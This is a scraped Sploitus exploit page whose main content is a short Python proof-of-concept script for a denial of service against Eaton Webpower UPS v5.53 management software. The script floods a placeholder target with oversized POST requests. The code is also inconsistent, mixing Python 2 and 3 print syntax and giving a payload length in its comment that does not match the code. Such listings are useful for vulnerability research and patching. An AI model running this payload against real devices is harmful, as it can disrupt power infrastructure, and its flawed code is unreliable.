 ```yaml
---
title: Webpower UPS 5.53 Denial Of Service Exploit exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-38256&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-03-13
fetch_date: 2025-10-04T09:23:38.275770
---
```


# Webpower UPS 5.53 Denial Of Service Exploit exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Webpower UPS 5.53 Denial Of Service Exploit

2023-03-12 | CVSS 7.4

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-38256
# Exploit Title: Webpower UPS v5.53 HTTP Denial of Service
# Exploit Author: Yehia Elghaly
# Vendor Homepage: https://www.eaton.com/ae/en-gb.html
# Software Link: https://www.eaton.com/ae/en-gb.html
# Version: Revision v5.53
# Tested on: WebPower UPS
# CVE: N/A
#!/usr/bin/env python
# Webpower UPS v5.53 HTTP Denial of Service.
# Discovered BY (Yehia Elghaly)
import requests

url = 'IP_Address'
data = {'Long_string' : 'a' * 12200}# 19700-character pattern

for i in range (16):
  response = requests.post(url, data=data)
  print("Response {}: {}".format(i+1, response.status_code))
  print "crach"
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)